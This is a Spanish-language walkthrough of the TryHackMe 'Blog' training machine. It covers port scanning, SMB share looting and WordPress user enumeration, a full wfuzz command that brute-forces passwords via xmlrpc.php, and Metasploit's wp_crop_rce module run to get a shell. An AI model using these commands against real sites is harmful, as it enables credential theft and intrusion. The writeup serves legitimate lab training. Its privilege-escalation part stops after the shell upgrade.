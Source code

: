 ```yaml
---
title: "Blog - THM Writeup"
date: 2022-01-14T18:34:00-04:00
categories:
  - cajas
tags:
  - thm
  - wordpress
  - web
  - php
  - reversing
  - xml
  - metasploit
---
```


Hoy traemos la maquina `Blog` de [TryHackMe](https://tryhackme.com/room/blog) en donde segun su misma descripcion indica que esta usando el `Sistema de Gestion de Contenido (CMS)` muy conocido [WordPress](https://www.wordpress.com) el cual tambien tiene una lista extensa de vulnerabilidades pasadas, tambien vemos en sus propios objetivos se nos pide enumerar la version sobre este.

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...
In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.
{: .alert .alert-info}

Una vez logeados, procedemos a iniciar la maquina ~~y agregarle 1 hora mas por si acaso~~, luego nos conectamos al VPN con
> `sudo openvpn /PATHTO/USER.ovpn`{:.language-bash .highlight}

Con esto empezamos...

## RECONOCIMIENTO

Hacemos un `ping -c 1 IP`{:.language-bash .highlight} para analizar el `TTL` de la respuesta a ver si se aproxima a 64 (Linux) o a 128 (Windows), vemos en este caso que es Linux.

Escaneamos los puertos abiertos con la herramienta `nmap`{:.language-bash .highlight} usando opciones que nos aumentaran en cierta medida la velocidad de escaneo:
> `nmap -p- -sS --open --min-rate=600 -vvv -n -Pn -oN puertos.txt 10.10.193.129`{:.language-bash .highlight}
![image](https://user-images.githubusercontent.com/85322110/149607176-3a61b846-19cb-4b52-9bf5-671b9b17b0e2.png)

Con esto vemos **todos** los puertos TCP `-p-`, utilizamos un escaneo del tipo [TCP SYN Scan](https://nmap.org/book/synscan.html), usamos solo listar puertos `--open`, aumentamos la cantidad minima de paquetes a enviar por segundo con `--min-rate=600` con rango entre `100-5000` dependiendo de la conexion existente, con maxima verbosidad `-vvv`, sin resolucion DNS `-n`, desactivando el [Host Discovery](https://nmap.org/book/man-host-discovery.html) con `-Pn` y guardando un archivo `-oN puertos.txt`

Lanzamos scripts basicos de enumeracion con `-sC` y deteccion de version `-sV` para los puertos que se encontraron abiertos, con salida al archivo `version.txt`.
> `nmap -sC -sV 10.10.193.129 -oN version.txt`{:.language-bash .highlight}
![image](https://user-images.githubusercontent.com/85322110/149606626-f6676da6-2236-407a-8bc5-9ace7b3eaf6a.png)


Encontramos un puerto `ssh 22` con el que no podremos hacer mucho si no tenemos credenciales de acceso, un puerto `http 80` utilizando el `CMS` con su version y con esto podriamos responder los primeros objetivos de la maquina, y tambien un servicio `smb 139,445` que al parecer podemos acceder como invitado.

Empezaremos con este puerto `smb` haciendo un listado de los recursos compartidos por red con `smbclient -L 10.10.56.100 -N`{:.language-bash .highlight} para listar con `-L` y elegir no usar clave de acceso con `-N`
![image](https://user-images.githubusercontent.com/85322110/149606629-10a31a7f-3cdd-4fba-8547-e8bfedda6bc7.png)

Vemos un recurso llamado `BillySMB` que es sospechoso segun la descripcion de la maquina, asi que procedemos a abrirlo y copiarnos todo el contenido:
![image](https://user-images.githubusercontent.com/85322110/149606632-81d12e14-f355-4760-a59b-49bc02fe10c3.png)

Usamos `prompt` para evitar preguntar confirmacion y nos copiamos todo con `mget *` ~~multiget?~~

A partir de ahi revisamos los archivos pero no encontramos mucho. Al usar `steghide` vemos que en la imagen `Alice-White-Rabbit.jpg` existe informacion pero al extraerla nos topamos con un buen `rabbit hole` que se advertia desde un principio...
![image](https://user-images.githubusercontent.com/85322110/149606634-742294c9-e654-451e-a9da-dcfd2ce9423b.png)

Asi que al no ver nada interesante, nos centramos en la pagina web, al abrirla vemos un Blog en Wordpress comun, con un par de publicaciones, de las cuales si vemos los autores tenemos dos posibles usuarios de la pagina que son `bjoel,kwheel`, intentamos logearnos con claves por defecto en el apartado de `Login` que encontramos en el sitio pero no logramos entrar.

Podriamos intentar hacer `fuzzing` para encontrar rutas y archivos de la pagina, sin embargo notamos un problema de conexion al mandar muchos paquetes, asi que podemos ir manualmente [enumerando](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress) un poco el WordPress.

Podemos validar si existen mas usuarios posibles usando una ruta tipica de WordPress en `/wp-json/wp/v2/users`, aca encontramos efectivamente un texto en formato JSON con cierta informacion: 
![image](https://user-images.githubusercontent.com/85322110/149642926-7293d7f9-da77-4ffe-b0cf-2cbffc322194.png)

Podemos hacer uso de la herramienta `jq` con la cual si pasamos un `echo 'TEXTOJSON' | jq ".[] | .slug" | tr -d '"'`{:.language-bash .highlight} podemos obtener el campo `slug` del formato JSON y verificamos que solo existen los usuarios `bjoel,kwheel` que identificamos antes.  

Seguimos enumerando y encontramos que efectivamente existe el archivo `/xmlrpc.php` debido a que si hacemos peticion usando `burpsuite` o `curl` obtenemos respuesta positiva desde el lado del servidor, aunque pone lo siguiente:

> XML-RPC server accepts POST requests only. 

Pues lo unico que debemos hacer aca para poder [enumerar](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#xml-rpc) ciertas cosas con esta API, podemos hacer uso de `burpsuite` donde activamos el proxy, interceptamos una actualizacion de esta pagina, nos mandamos la peticion a la opcion `Repeater`, damos `2do Click` y usamos `Change request Method` para cambiar la peticion a `POST`, y luego ya solo queda modificar el cuerpo de la peticion, por ejemplo podemos mostrar los metodos disponibles a llamar con:
```xml
<methodCall>
<methodName>
system.listMethods
</methodName>
</methodCall>
```
![image](https://user-images.githubusercontent.com/85322110/149643483-90ecadf0-518d-40e9-bb11-93d92cedbda0.png)

Vemos de ultimo en la lista que tenemos disponible el metodo `wp.getUsersBlogs` con el cual podremos utilizarlo para probar por fuera bruta `bruteforce` las claves de estos dos usuarios que nos encontramos. Para esto existen diferentes maneras, tenemos `burpsuite` que con licencia pro hace funcion de `Intruder` por hilos, tenemos `wpscan` que tambien tiene un modulo de fuerza bruta, tambien podriamos hacer uso de herramientas de fuzzing como `wfuzz`, o incluso desde un script en `bash` usando el paquete `curl`, sin embargo vemos que esta maquina es altamente susceptible a DoS si se envian muchas peticiones, asi que en este caso tiraremos de `wfuzz` sin agregar muchos hilos usando lo siguiente:

> La peticion que se debe enviar para probar una clave es esta

```xml
<methodCall>
	<methodName>
		wp.getUsersBlogs
	</methodName>
	<params>
		<param>
			<value>
				user
			</value>
		</param>
		<param>
			<value>
				password
			</value>
		</param>
	</params>
	
</methodCall>
```
 
Como usuarios, tenemos que crear un archivo que en cada linea tenga un usuario para `bjoel, kwheel` en un archivo users.txt y como claves usaremos las primeras 5000 claves del archivo rockyou.txt las cuales extraemos con `head -n 5000 /usr/share/wordlists/rockyou.txt > dict.txt`{:.language-bash .highlight} y una vez tengamos esto usaremos la siguiente instruccion para `wfuzz`

```bash
wfuzz -c --hh=403 -w dict.txt -w users.txt -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>FUZ2Z</value></param><param><value>FUZZ</value></param></params></methodCall>" http://blog.thm/xmlrpc.php
```

Con esto usaremos formato `-c`olorizado, escondemos las respuestas con 403 caracteres (si se quita este comando, apareceran todas las solicitudes con claves incorrectas, usamos este filtro para eliminar esas respuestas especificas), usamos el diccionario `-w` dict.txt de primero para iterar 1 clave con dos usuarios, y luego el diccionario de `-w` users.txt, si lo ponemos en orden inverso pues iteraria 1 usuario con todas las claves, y nosotros queremos probar cada clave con cada usuario para agilizar tiempo, luego con `-d` pasamos la `POST data` de la peticion `xml` en una sola linea, poniendo `FUZ2Z` donde irian nuestro `user.txt`, y ponemos `FUZZ` donde irian las claves, y finalmente la URL de peticion, con esto encontramos la clave para `kwheel`:
![image](https://user-images.githubusercontent.com/85322110/149839157-21e5e57e-1f71-4c3b-a32e-896cd9be8886.png)

Una vez tenemos esta clave, podemos probar logearnos en la misma pagina, pero vemos que no tenemos permisos de administrador asi que no podremos hacer mucho, sin embargo existen `exploits` que requieren de autenticacion inicial para funcionar, por ello vemos si existe algun exploit para la version actual de wordpress con `searchsploit wordpress 5.0`{:.language-bash .highlight} y vemos ciertos exploits, pero en este caso nos enfocaremos en el llamado `WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)` que es el que aparenta estar operativo. Al ser de Metasploit debemos lanzar el entorno del mismo con `msfconsole` y esperamos que se active la consola ~~con mucha paciencia~~.

Una vez aca podemos buscar el mismo exploit con `search wordpress 5.0` y anotamos el nombre, enviamos `use exploit/multi/http/wp_crop_rce` y luego debemos completar las opciones del `exploit` con `options`, a partir de ahi seteamos el `LHOST, LPORT, RHOSTS, USERNAME y PASSWORD` con `set LHOST 10.8.33.130` por ejemplo:
![image](https://user-images.githubusercontent.com/85322110/149840797-37e94b55-43f6-4043-8776-7499c62507d9.png)
![image](https://user-images.githubusercontent.com/85322110/149840827-0f2f5912-a4b5-4422-abd1-5031da93367a.png)

Ya con todo configurado, procemos a escribir `exploit` y darle enter:
![image](https://user-images.githubusercontent.com/85322110/149841372-018ac92e-fa7e-4dc7-aadc-4fc592120d7f.png)


## ESCANEO


## ESCALADA DE PRIVILEGIOS

Una vez tenemos acceso, lo primero que podemos hacer es obtener una consola mas interactiva haciendo uso de una serie de pasos que se explican a continuacion:

- `script /dev/null -c bash`{:.language-bash .highlight}
- En teclado `Ctrl + Z`
- `stty raw -echo; fg`{:.language-bash .highlight}
- Escribir `reset` aunque no se vea
- `xterm` en Terminal Type
- `export SHELL=bash`{:.language-bash .highlight}
- `export TERM=xterm`{:.language-bash .highlight}

Ya con esto tenemos una consola interactiva con la cual procedemos a seguir investigando en como ganar privilegios de `root`.

Saludos!
